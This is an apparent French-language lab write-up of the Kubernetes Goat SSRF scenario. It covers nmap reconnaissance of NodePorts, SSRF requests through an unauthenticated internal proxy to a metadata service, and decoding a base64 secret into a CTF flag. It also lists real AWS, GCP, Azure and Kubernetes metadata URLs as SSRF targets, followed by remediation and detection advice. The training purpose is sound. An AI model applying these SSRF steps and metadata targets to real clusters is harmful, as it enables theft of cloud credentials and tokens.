




# SC-CLD-002 — SSRF in the Kubernetes World

## Classification

| Champ | Valeur |
|-------|--------|
| **Scénario** | SC-CLD-002 |
| **Cible** | Internal API Proxy + Metadata DB — Kubernetes Goat |
| **VLAN** | 30 — Cloud Lab (192.168.30.0/24) |
| **Cluster** | K3s 3 nœuds (master + 2 workers) |
| **Sévérité** | 🔴 Critique |
| **CVSS 3.1** | 9.3 (Critical) — AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:N |
| **CWE** | CWE-918 (Server-Side Request Forgery), CWE-200 (Exposure of Sensitive Information) |
| **MITRE ATT&CK** | T1090 (Proxy), T1552.005 (Cloud Instance Metadata API), T1046 (Network Service Discovery) |
| **Date** | 20 février 2026 |
| **Auteur** | hik3nR00t |

---

## Résumé exécutif

Un service de proxy API interne est exposé via un NodePort Kubernetes (port 30003) sans authentification. Ce proxy permet à un attaquant externe d'envoyer des requêtes HTTP vers des services internes du cluster inaccessibles depuis l'extérieur. En exploitant cette vulnérabilité SSRF (Server-Side Request Forgery), un attaquant peut naviguer dans le metadata API interne et exfiltrer des secrets, tokens et credentials.

**Risque** : Critique — Exfiltration de secrets internes, accès non autorisé aux metadata cloud, pivot vers l'infrastructure.

---

## Kill Chain



---

## Scope & méthodologie

- **Périmètre** : Cluster K3s 3 nœuds (192.168.30.10-12), plage NodePort 30000-32767
- **Approche** : Boîte noire → reconnaissance réseau externe, puis exploitation SSRF
- **Outils** : nmap, curl, navigateur web, base64
- **Référentiel** : OWASP SSRF Prevention, CIS Kubernetes Benchmark, MITRE ATT&CK Cloud Matrix

---

## Phase 1 — Reconnaissance externe

### Scan des NodePort Kubernetes

Un cluster Kubernetes expose des services via des NodePort dans la plage 30000-32767. Ces ports sont accessibles sur **tous les nœuds** du cluster.

```bash
nmap -sV -p 30000-32767 192.168.30.10 192.168.30.11 192.168.30.12
```

**Résultat :**

```
PORT      STATE SERVICE
30003/tcp open  http     Node.js Express
30978/tcp open  ssl/http Traefik
31440/tcp open  http     Traefik
```

**Analyse** : Le port 30003 expose un service HTTP non chiffré via Express/Node.js. Les ports 30978 et 31440 sont des services Traefik (ingress controller K3s, attendu).

### Interrogation du service découvert

```bash
curl http://192.168.30.10:30003/
```

**Réponse :**

```json
{"info": "Refer to internal http://metadata-db for more information"}
```

**Constat critique** : Le service expose un indice sur l'existence d'un service interne `metadata-db`. De plus, il n'y a aucune authentification requise pour accéder à ce service.

---

## Phase 2 — Découverte du proxy API

### Énumération des services Kubernetes

Le service sur le port 30003 (`internal-proxy-info-app-service`) fait partie d'un pod avec **deux containers** :

| Container | Port | Rôle |
|-----------|------|------|
| info-app | 5000 (NodePort 30003) | Service d'information exposé |
| internal-api | 3000 | **Proxy API** — permet de forger des requêtes vers des services internes |

Le proxy API écoute sur le port 3000 du même pod. Il expose une interface web permettant d'envoyer des requêtes HTTP vers n'importe quel endpoint interne du cluster.

### Accès au proxy

Via port-forward ou accès direct, le proxy présente un formulaire avec :
- **Enter your endpoint** : URL cible
- **Method** : GET, POST, PUT, DELETE
- **Custom Header** : En-têtes personnalisés

**C'est une vulnérabilité SSRF classique** : l'application prend une URL fournie par l'utilisateur et fait la requête côté serveur sans validation ni filtrage.

---

## Phase 3 — Exploitation SSRF

### Principe de l'attaque



### Étape 1 — Listing racine

**Requête via le proxy :** `http://metadata-db`

**Réponse :**
```html
<pre>
<a href="1.0">1.0</a>
<a href="latest/">latest/</a>
</pre>
```

Deux versions de l'API disponibles : `1.0` et `latest/`.

### Étape 2 — Exploration de latest/

**Requête :** `http://metadata-db/latest/`

**Réponse :**
```html
<pre>
<a href="events/">events/</a>
<a href="hostname">hostname</a>
<a href="latest">latest</a>
<a href="profile">profile</a>
<a href="secrets/">secrets/</a>
</pre>
```

**Endpoints découverts** : events, hostname, profile, et surtout **secrets/** — un répertoire contenant des données sensibles.

### Étape 3 — Listing des secrets

**Requête :** `http://metadata-db/latest/secrets/`

**Réponse :**
```html
<pre>
<a href="info">info</a>
<a href="kubernetes-goat">kubernetes-goat</a>
</pre>
```

Deux secrets identifiés : `info` et `kubernetes-goat`.

### Étape 4 — Exfiltration du secret

**Requête :** `http://metadata-db/latest/secrets/kubernetes-goat`

**Réponse :**
```json
{"metadata": "static-metadata", "data": "azhzLWdvYXQtY2E5MGVmODVkYjdhNWFlZjAxOThkMDJmYjBkZjljYWI="}
```

### Décodage

```bash
echo -n "azhzLWdvYXQtY2E5MGVmODVkYjdhNWFlZjAxOThkMDJmYjBkZjljYWI=" | base64 -d
```

**Flag :** `k8s-goat-ca90ef85db7a5aef0198d02fb0df9cab`

---

## Données exfiltrées

| Donnée | Valeur | Risque |
|--------|--------|--------|
| Metadata type | `static-metadata` | Information sur l'architecture interne |
| Secret encodé (base64) | `azhzLWdvYXQt...` | Credential / token exfiltré |
| Flag décodé | `k8s-goat-ca90ef85db7a5aef0198d02fb0df9cab` | Preuve de compromission |

---

## Impact technique

### SSRF → Cloud Metadata en situation réelle

Le service `metadata-db` simule le **metadata API** des cloud providers. En production, les mêmes requêtes SSRF permettraient d'atteindre :

| Cloud Provider | URL Metadata | Données exposées |
|---------------|-------------|-----------------|
| **AWS** | `http://169.254.169.254/latest/meta-data/` | IAM credentials, tokens, user-data |
| **GCP** | `http://metadata.google.internal/computeMetadata/v1/` | Service account tokens, project info |
| **Azure** | `http://169.254.169.254/metadata/instance` | Managed identity tokens, subscription info |
| **Kubernetes** | `https://kubernetes.default.svc/api/v1/` | Service account tokens, secrets, configs |

Avec un token IAM récupéré via SSRF, un attaquant peut :

- **Exfiltration** : Lire les buckets S3/GCS, les bases de données cloud
- **Escalade** : Assumer des rôles IAM avec plus de privilèges
- **Persistence** : Créer des backdoors cloud (Lambda, Cloud Functions)
- **Mouvement latéral** : Pivoter vers d'autres services via le token

### Exemples réels de SSRF cloud

- **Capital One (2019)** : SSRF sur un WAF mal configuré → metadata AWS → 100M de dossiers clients
- **Shopify (2020)** : SSRF dans un service Exchange → accès root sur toutes les instances

---

## Impact métier — MediaTech Groupe SA

### Matrice de risque



### Financier
- Coûts de réponse à incident (forensic cloud, audit des accès)
- Utilisation frauduleuse des ressources cloud (crypto mining via tokens volés)
- Amendes réglementaires si données personnelles exfiltrées

### Réputationnel
- Un groupe de presse dont les services internes sont accessibles sans authentification
- Perte de confiance des sources journalistiques et des partenaires

### Réglementaire
- **RGPD** : Si les metadata contiennent des tokens donnant accès à des données personnelles → notification CNIL sous 72h
- **NIS2** : Service exposé sans authentification = non-conformité aux mesures de sécurité minimales
- **ISO 27001** : Non-conformité A.13.1.3 (ségrégation des réseaux), A.14.1.2 (sécurité des services applicatifs)

---

## Remédiation — Secure by Design

### Immédiat (24h)
1. **Supprimer le NodePort** — ne jamais exposer de proxy interne via NodePort
2. **Révoquer** tous les tokens et secrets potentiellement exposés via le metadata API
3. **Auditer** les logs d'accès pour identifier toute exfiltration antérieure

### Court terme (1 semaine)
4. **Implémenter une allowlist d'URL** — le proxy ne doit pouvoir contacter que des endpoints autorisés
5. **Ajouter une authentification** sur tous les services internes (mTLS, JWT, API keys)
6. **Configurer des Network Policies** Kubernetes pour isoler les pods sensibles
7. **Bloquer l'accès au metadata API** depuis les pods applicatifs (IMDSv2 sur AWS, metadata concealment sur GCP)

### Moyen terme (1 mois)
8. **Implémenter un Service Mesh** (Istio/Linkerd) pour chiffrer et contrôler le trafic inter-pods
9. **Déployer un WAF** devant les services exposés pour détecter les tentatives SSRF
10. **Scanner automatiquement** les NodePort exposés avec des outils de sécurité K8s (kube-hunter, kubescape)
11. **Former les développeurs** aux risques SSRF et aux bonnes pratiques de validation d'entrée

### Architecture cible — Secure by Design



---

## Outils de détection recommandés

| Outil | Usage | Lien |
|-------|-------|------|
| **kube-hunter** | Scan de vulnérabilités K8s depuis l'extérieur et l'intérieur | [github.com/aquasecurity/kube-hunter](https://github.com/aquasecurity/kube-hunter) |
| **kubescape** | Scan CIS Benchmark + NSA/CISA + MITRE ATT&CK | [github.com/kubescape/kubescape](https://github.com/kubescape/kubescape) |
| **nuclei** | Templates SSRF pour scanner les services web | [github.com/projectdiscovery/nuclei](https://github.com/projectdiscovery/nuclei) |
| **IMDSv2** (AWS) | Metadata API v2 avec token obligatoire | [docs.aws.amazon.com](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html) |

---

## Statistiques réelles

| Métrique | Valeur | Source |
|----------|--------|--------|
| SSRF dans le OWASP Top 10 | Position A10 (2021) → Nouveau | OWASP 2021 |
| Incidents SSRF cloud majeurs | Capital One (100M dossiers), Shopify (root access) | Rapports publics |
| NodePort exposés en production | 38% des clusters mal configurés | Aqua Security 2024 |
| Temps moyen de détection SSRF | > 200 jours | IBM Cost of Data Breach 2024 |

---

## Références

- [OWASP — Server-Side Request Forgery Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Server-Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [CWE-918 — Server-Side Request Forgery](https://cwe.mitre.org/data/definitions/918.html)
- [MITRE ATT&CK T1552.005 — Cloud Instance Metadata API](https://attack.mitre.org/techniques/T1552/005/)
- [Kubernetes Goat — SSRF Scenario](https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-3/ssrf-in-the-kubernetes-world/welcome/)
- [AWS IMDSv2 Documentation](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html)
- [Capital One Breach Analysis](https://www.capitalone.com/digital/facts2019/)
- [kube-hunter — K8s Penetration Testing](https://github.com/aquasecurity/kube-hunter)

---

*HikenRoot Forge — SC-CLD-002 — hik3nR00t — Février 2026*
